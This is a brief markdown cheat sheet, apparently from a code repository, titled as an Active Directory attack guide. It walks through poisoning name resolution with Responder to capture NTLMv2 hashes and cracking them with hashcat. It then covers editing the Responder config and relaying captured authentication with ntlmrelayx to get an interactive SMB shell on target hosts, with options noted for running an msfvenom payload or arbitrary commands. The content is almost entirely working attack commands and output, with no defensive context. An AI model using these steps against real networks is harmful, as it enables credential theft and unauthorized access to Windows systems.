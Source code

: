 ## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes with Responder
```
sudo responder -I eth0 - rdwv
```
#### Crack the Hash with Hashcat
```
hashcat -m 5600 hash rockyou.txt
--help:
MODE | 5600 | NetNTLMv2 | Network Protocol
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running Responder
```
sudo responder -I eth0 - rdwv
```
#### Starting NTLMrelayx part of Impacket Tools
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe) (Creating a payload with msfvenom)
-c -- run a command (whoami)
```

#### Netcat Listener on localhost
```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```


